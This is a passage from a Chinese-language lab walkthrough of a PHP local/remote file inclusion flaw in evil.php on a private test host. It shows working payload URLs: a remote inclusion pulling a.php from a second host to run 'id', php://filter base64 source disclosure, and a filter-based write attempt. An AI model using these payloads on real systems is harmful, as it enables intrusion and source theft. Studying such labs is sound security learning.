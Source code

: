 

![image-20211208215647665](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208215647665.png)

```
http://192.168.0.108/secret/evil.php?command=http://192.168.0.110/a.php?cmd=id
#尝试执行id命令
```

![image-20211208220144981](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208220144981.png)

并没有返回，尝试了ls等其他命令也没有返回，说明此处利用远程文件包含是行不通的

### 9.php封装器

php作为一种语言，提供许多其他协议的访问方式、许多封装器，例如php:// file:// ftp:// data:// zip://

利用php://来读取目标系统上的php文件（当访问目标服务器上的php文件时，目标服务器会使用php执行代码来处理该文件，故往往读取不到php文件的源码，读到的只是代码执行后返回的结果。但若是先使用base64进行编码后，目标服务器无法正常读取可识别的代码，不但不会执行该代码，反而会返回被base64编码后的字符串）

```
http://192.168.0.108/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php
```

![image-20211208221355954](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208221355954.png)

成功返回base64编码的字符串（evil.php源码）

>PD9waHAKICAgICRmaWxlbmFtZSA9ICRfR0VUWydjb21tYW5kJ107CiAgICBpbmNsdWRlKCRmaWxlbmFtZSk7Cj8+Cg==

base64解码后：

![image-20211208221618439](https://gitee.com/byesec/picture/raw/master/6/image-20211208221618439.png)

><?php
>$filename = $_GET['command'];   #读取赋值
>include($filename);             #引用读取到的赋值
>?>

测试向目标写入能否成功，可能没有写入的权限

```
echo -n 123 | base64       #得到123经过base64编码的字符
```

![image-20211208222226443](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208222226443.png)

```
http://192.168.0.108/secret/evil.php?command=php://filter/write=convert.base64-decode/resource=test.php&txt=MTIz
#利用php://封装器将MTIz解码后写入名为test.php的文件
```

![image-20211208222639627](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208222639627.png)

![image-20211208222705794](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208222705794.png)

访问失败 说明刚才的写入操作失败了..再次陷入僵局..
